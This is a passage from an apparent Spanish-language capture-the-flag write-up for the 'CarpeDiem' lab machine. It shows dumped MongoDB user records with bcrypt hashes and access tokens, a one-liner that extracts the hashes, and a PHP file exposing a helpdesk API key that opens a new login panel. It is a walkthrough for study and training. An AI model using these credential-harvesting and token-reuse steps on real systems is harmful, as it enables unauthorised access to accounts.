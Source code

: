 ```null
{ "_id" : ObjectId("6243c28f1e0d4d001b0740d6"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jpardella", "email" : "jpardella@carpediem.htb", "password" : "$2b$10$nNoQGPes116eTUUl/3C8keEwZAeCfHCmX1t.yA1X3944WB2F.z2GK", "fullname" : "Joey Pardella", "title" : "Desktop Support", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "7c0335559073138d82b64ed7b6c3efae427ece85", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:33:20.918Z") }
{ "_id" : ObjectId("6243c3471e0d4d001b0740d7"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "acooke", "email" : "acooke@carpediem.htb", "password" : "$2b$10$qZ64GjhVYetulM.dqt73zOV8IjlKYKtM/NjKPS1PB0rUcBMkKq0s.", "fullname" : "Adeanna Cooke", "title" : "Director - Human Resources", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "9c7ace307a78322f1c09d62aae3815528c3b7547", "__v" : 0, "lastOnline" : ISODate("2022-03-30T14:21:15.212Z") }
{ "_id" : ObjectId("6243c69d1acd1559cdb4019b"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "svc-portal-tickets", "email" : "tickets@carpediem.htb", "password" : "$2b$10$CSRmXjH/psp9DdPmVjEYLOUEkgD7x8ax1S1yks4CTrbV6bfgBFXqW", "fullname" : "Portal Tickets", "title" : "", "role" : ObjectId("623c8b20855cc5001a8ba13a"), "accessToken" : "f8691bd2d8d613ec89337b5cd5a98554f8fffcc4", "__v" : 0, "lastOnline" : ISODate("2022-03-30T13:50:02.824Z") }
```


Tengo varios correos con sus respectivos tokens y contraseñas, que no se pueden crackear.

```null
cat data | grep -oP '".*?"' | tr -d '"' | grep "^\$2b" > hashes
```
```null
$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS
$2b$10$n4yEOTLGA0SuQ.o0CbFbsex3pu2wYr924cKDaZgLKFH81Wbq7d9Pq
$2b$10$nNoQGPes116eTUUl/3C8keEwZAeCfHCmX1t.yA1X3944WB2F.z2GK
$2b$10$qZ64GjhVYetulM.dqt73zOV8IjlKYKtM/NjKPS1PB0rUcBMkKq0s.
$2b$10$CSRmXjH/psp9DdPmVjEYLOUEkgD7x8ax1S1yks4CTrbV6bfgBFXqW
```

En el directorio ```/var/www/html/portal/classes``` hay un archivo ```Trudesk.php```

```null
<?php
class TrudeskConnection{

    private $host = 'trudesk.carpediem.htb';
    private $apikey = 'f8691bd2d8d613ec89337b5cd5a98554f8fffcc4';
    private $username = 'svc-portal-tickets';
    private $password = '';
    private $database = '';
    
}
?>
```

Añado el subdominio al ```/etc/hosts```. Tengo acceso a un nuevo panel de inicio de sesión
